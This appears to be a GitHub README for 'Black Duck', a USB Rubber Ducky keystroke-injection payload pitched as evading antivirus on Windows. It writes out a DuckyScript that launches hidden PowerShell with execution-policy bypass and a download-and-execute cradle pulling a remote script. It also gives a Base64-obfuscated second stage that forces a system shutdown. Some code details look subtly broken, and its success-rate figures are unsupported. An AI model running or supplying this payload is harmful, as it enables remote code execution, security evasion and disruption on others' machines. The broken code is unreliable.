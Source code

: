 <img src="https://github.com/user-attachments/assets/a844f4b3-a0fa-490a-8eef-f98b724939f2" alt="Black Duck Logo" width="200" height="auto">


Black Duck is an advanced USB Rubber Ducky-based payload designed to simulate undetected threat scenarios on Windows systems, enabling the assessment of endpoint security defenses. 
Using PowerShell obfuscation techniques, Black Duck effectively bypasses antivirus detection with an 85% success rate. 
This project integrates Gen AI 4.0 to automate vulnerability reporting, streamlining incident response processes and enhancing endpoint security resilience.


Key Features
Antivirus Evasion: Employs advanced PowerShell obfuscation tactics to bypass antivirus systems, exposing critical endpoint security gaps.
Automated Vulnerability Reporting: Integrates Gen AI 4.0 for real-time vulnerability analysis, reducing manual analysis time by 75%.
Enhanced Response Time: Automates severity rating and remediation suggestions, leading to a 70% improvement in response times and risk mitigation.
User-Friendly Interaction: Supports streamlined payload execution for controlled security testing environments.

Getting Started
To begin with Black Duck:

Install DuckyScript on your USB Rubber Ducky: Ensure your USB Rubber Ducky device is configured to execute DuckyScript payloads.
Prepare a Controlled Testing Environment: Use a virtual machine or isolated network setup to safely analyze payload behavior.
Download and Configure the Payload: Customize the payload to point to a local or secure testing server.
Installation
Clone the Repository:

bash
Copy code
git clone https://github.com/kuranikaran/Black-Duck.git
Prepare USB Rubber Ducky:

Flash the payload onto your USB Rubber Ducky device.
Make sure you have the necessary driver and encoding software installed.
Test Environment Setup:

Configure a Windows virtual machine for isolated testing.
Disable auto-update features on antivirus software for controlled evasion testing.
Usage
DuckyScript for Black Duck Payload
Use this DuckyScript to execute the obfuscated PowerShell command:

DELAY 500
REM Open Run Prompt
GUI r
DELAY 300
REM Open PowerShell in hidden window
STRING powershell -w hidden -nop -ep bypass -c "IEX ((New-Object System.Net.WebClient).DownloadString('https://github.com/kuranikaran/blackduck/blob/main/DuckyPayload.ps1'))"
ENTER

Remote Payload (payload.ps1)
Place the obfuscated PowerShell payload on your testing server or in a secure location.

powershell
$a=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('cwBoAHUAdABkAG8AdwBuACAALwBzACAALwBmACAALwB0ACAAMAA=='))
Invoke-Expression $a

Obfuscation Techniques
Black Duck employs:

Base64 encoding
String manipulation for command hiding
In-memory execution to evade detection
Legal Disclaimer
This tool is intended solely for research and educational purposes. Unauthorized use on systems without permission is illegal and punishable by law. Use Black Duck responsibly and only in controlled, authorized environments.

